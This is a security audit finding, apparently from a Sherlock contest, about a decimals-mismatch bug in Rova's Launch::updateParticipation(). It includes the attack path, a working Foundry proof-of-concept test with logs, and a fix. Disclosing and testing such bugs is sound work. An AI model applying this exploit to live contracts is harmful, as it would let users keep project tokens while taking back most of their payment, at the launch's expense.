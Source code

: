 Custom Aqua Vulture

High

# Malicious user can steal tokens

### Summary

In `Launch::updateParticipation()` [function](https://github.com/dpm-labs/rova-contracts/blob/b03e4ede50488a2000bb73d602e28ee4f6c0941f/src/Launch.sol#L312) malicious user can steal tokens because of lack of proper decimals scaling of currency token and project token.

In the coded PoC, we can see that user fetched back approx 83% of currency tokens and only lost a fraction of 1 project token.

### Root Cause

In `Launch::updateParticipation()` [function](https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L361C13-L361C84), `userTokens` are set with the amount `userTokenAmount - refundCurrencyAmount`.

```solidity
            userTokens.set(request.userId, userTokenAmount - refundCurrencyAmount);
```

Whereas, `userTokenAmount` are project tokens which can have different decimals than currency tokens. The bigger the difference in decimals, the higher the discrepancy in tokens amount.

### Internal Pre-conditions

1. Project token has 18 decimals (actually any decimals other than currency tokens)

### External Pre-conditions

1. Currency token has 6 decimals (like USDC or USDT)

From the contest page
> Examples of tokens we intend to use: USDC, USDT, Eth Mainnet MOVE (ERC20 with 8 decimals)

### Attack Path

Assumptions: 
- maxTokenAmountPerUser = 3000 * 10 ** tokenDecimals
- minTokenAmountPerUser = 500 * 10 ** tokenDecimals

1. User participates in a launch group for 3000 tokens (max tokens to be allocated per user)
2. Tokens sold to user becomes 3000000000000000000000
3. User then updates participation request and reduces the token amount to 500 tokens (min tokens to be allocated per user) effectively removing 83% (2500/3000)
4. User gets 83% of his currency tokens back whereas userTokens only become 2999999999997500000000

```solidity
 userTokens.set(request.userId, userTokenAmount - refundCurrencyAmount);
 userTokens.set(request.userId, 3000000000000000000000 - 2500000000);
```

### Impact

User can steal project tokens.

### PoC

Do below changes in `LaunchTestBase.t.sol`

```solidity
contract MockERC20 is ERC20 {

    constructor() ERC20("Mock Token", "MTK") {
        _mint(msg.sender, 1000000 * 10 ** 6);
    }

    function decimals() public pure override returns (uint8) {
        return 6;
    }
}

    function _setUpLaunch() public {
        vm.startPrank(admin.addr);
        // console.log(" LaunchTestBase.t.sol:64 :: admin.addr:", admin.addr);

        // Deploy contracts
        _initializeLaunch(admin.addr, testWithdrawalAddress);
        currency = new MockERC20();

        // Setup roles
        launch.grantRole(MANAGER_ROLE, manager);
        launch.grantRole(OPERATOR_ROLE, operator);
        launch.grantRole(SIGNER_ROLE, signer);

        // Fund users
        // currency.transfer(user1, 2000 * 10 ** launch.tokenDecimals());
        // currency.transfer(user1, 2000 * 10 ** launch.tokenDecimals());
        currency.transfer(user1, 5000 * 10 ** currency.decimals());
        currency.transfer(user2, 1000 * 10 ** currency.decimals());
        vm.stopPrank();
    }
```

Add below test in `Launch.Participate.t.sol`

```solidity

import {console} from 'forge-std/console.sol';

    function test_wy_updateParticipation() external {

        _setupLaunchGroup();

        // Prepare participation request
        ParticipationRequest memory request =  ParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            launchParticipationId: testLaunchParticipationId,
            userId: testUserId,
            userAddress: user1,
            tokenAmount: 3000 * 10 ** launch.tokenDecimals(),
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });

        bytes memory signature = _signRequest(abi.encode(request));

        vm.startPrank(user1);
        uint256 currencyAmount = _getCurrencyAmount(request.launchGroupId, request.currency, request.tokenAmount);
        currency.approve(address(launch), currencyAmount * 2);

        //! PARTICIPATE
        
        uint256 userCurrencyBalBeforeParticipation = currency.balanceOf(user1);
        
        launch.participate(request, signature);
        
        uint256 currencyUsedInParticipation = userCurrencyBalBeforeParticipation - currency.balanceOf(user1);
        
        uint256 tokensSold = launch.getUserTokensByLaunchGroup(
            testLaunchGroupId, 
            testUserId
        );
        
        console.log(" Launch.Participate.t.sol:62 :: tokensSold:", tokensSold);
        console.log(" Launch.Participate.t.sol:63 :: currencyUsedInParticipation:", currencyUsedInParticipation);


        //! UPDATE PARTICIPATION
        
        uint256 userCurrencyBalBeforeUpdate = currency.balanceOf(user1);

        UpdateParticipationRequest memory updateRequest =  UpdateParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            prevLaunchParticipationId: testLaunchParticipationId,
            newLaunchParticipationId: "WYcm6o2sldi00003b74facm5z9n",
            userId: testUserId,
            userAddress: user1,
            tokenAmount: 500 * 10 ** launch.tokenDecimals(),
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });

        signature = _signRequest(abi.encode(updateRequest));

        launch.updateParticipation(updateRequest, signature);

        uint256 currencyGotFromUpdate = currency.balanceOf(user1) - userCurrencyBalBeforeUpdate;
        
        uint256 updatedTokensSold = launch.getUserTokensByLaunchGroup(
            testLaunchGroupId, 
            testUserId
        );
        
        console.log(" Launch.Participate.t.sol:94 :: updatedTokensSold:", updatedTokensSold);
        console.log(" Launch.Participate.t.sol:95 :: currencyGotFromUpdate:", currencyGotFromUpdate);
        
        vm.stopPrank();
    }

```
Run the test using command `forge test --mt test_wy_updateParticipation -vv`

```bash
Ran 1 test for test/Launch.Participate.t.sol:LaunchParticipateTest
[PASS] test_wy_updateParticipation() (gas: 685274)
Logs:
   Launch.Participate.t.sol:62 :: tokensSold: 3000000000000000000000
   Launch.Participate.t.sol:63 :: currencyUsedInParticipation: 3000000000
   Launch.Participate.t.sol:94 :: updatedTokensSold: 2999999999997500000000
   Launch.Participate.t.sol:95 :: currencyGotFromUpdate: 2500000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.07ms (1.16ms CPU time)

Ran 1 test suite in 145.02ms (3.07ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```



### Mitigation

In my opinion, where we have to perform arithmetic operations on amounts with differing decimals, we should decide a standard decimals range and always normalize amount to this standard before performing any addition or subtraction. For example, normalising both amounts to 18 decimals, then after computation, denormalise the amount into original decimals.